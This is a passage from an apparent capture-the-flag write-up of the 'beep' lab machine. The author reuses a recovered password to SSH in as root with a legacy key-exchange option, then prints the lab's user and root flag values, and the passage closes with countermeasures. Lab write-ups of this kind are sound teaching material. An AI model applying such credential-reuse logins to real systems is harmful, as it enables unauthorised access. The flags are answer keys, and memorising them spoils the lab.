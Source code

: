 Starting from root, I tried reusing the `jEhdIekWmdjE` password to login as each user via SSH starting from `root`. Note that since the beep host is running a very old version of CentOS, it only works with weak cryptographic protocols, so I needed to specify one of the legacy key exchange algorithms to my SSH client in order to login:

```
$ ssh -oKexAlgorithms=diffie-hellman-group-exchange-sha1 root@10.10.10.7
The authenticity of host '10.10.10.7 (10.10.10.7)' can't be established.
RSA key fingerprint is SHA256:Ip2MswIVDX1AIEPoLiHsMFfdg1pEJ0XXD5nFEjki/hI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.7' (RSA) to the list of known hosts.
root@10.10.10.7's password:
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```

At this point, I had root access to the beep machine and captured both the `user.txt` and `root.txt` flags:

```
[root@beep home]# find . -name user.txt -ls
622616    4 -rw-rw-r--   1 fanis    fanis          33 Apr  7  2017 ./fanis/user.txt
[root@beep home]# cat ./fanis/user.txt
aeff3def0c765c2677b94715cffa73ac
```

```
[root@beep home]# cat /root/root.txt
d88e006123842106982acce0aaf453f0
```

## Countermeasures

* Update Elastix and Webmin to the latest versions currently available. Ideally, update all software to their latest versions and uninstall any software that is not being used.
* Never reuse credentials.
